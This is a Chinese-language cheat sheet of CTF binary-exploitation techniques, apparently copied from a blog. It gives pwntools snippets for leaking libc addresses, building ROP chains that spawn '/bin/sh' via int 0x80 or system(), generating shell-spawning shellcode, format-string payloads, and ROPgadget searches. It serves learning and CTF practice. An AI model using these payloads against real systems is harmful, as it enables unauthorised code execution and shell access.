 https://www.jianshu.com/p/a25122632173
2、获取libc里的read，write等函数的地址偏移
用 ldd 命令可以查看可执行文件的依赖库。
命令：ldd+文件名
6.recvuntil()获取6字节地址分析
原因是虽然在64位计算机中，一个地址的长度是8字节，但是实际上的计算机内存只有16G内存以下，所以一般的地址空间只是用了不到 2^48 的地址空间。
因此实际的操作系统中，一个地址的最高位的两个字节是00，而且实际栈地址一般是0x7fxxxx开头的，因此为了避免获取错误的地址值，只需要获取前面的6字节值，然后通过ljust函数把最高位的两字节填充成00。 我们可以用这种一般的写法：
u64(p.recv(6).ljust(8, "\x00"))
7.使用flat()函数来格式化payload
pwntools中可使用flat()构造ROP，可以把ROP=p32(gadget1)+p32(gadget2)+p32(gadget3)+...表示为flat([gadget1,gadget2,gadget3,...])
需要事先告知以何种格式进行pack，在script开头先加上架构名称：context.arch='i386'，如此script就会用p32()帮你自动建好ROP
payload=flat(['A'*112,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,binsh,int_0x80])
p.sendlineafter(':',flat(['a'*0x8c,e.plt['system'],0,0x804A024,0,0]))
8、自动生成shellcode
p.send(asm(shellcraft.sh()))
9、格式化字符串漏洞
payload=fmtstr_payload(12,{0x804a048:0x2223322})
10、使用ROPgadget来寻找gadgets
ROPgadget  --binary 文件名 --only "pop|ret"
ROPgadget  --binary lib.so.6 --only "pop|ret" | grep rdi
1、使用ROPgadget --binary level0 --string '/bin/sh'可以得到字符串地址。
2、使用ROPgadget --binary level0 --only 'pop|ret'可以得到pop|ret的返回值
3、使用objdump -d level0 | grep "plt"可得到plt表的地址

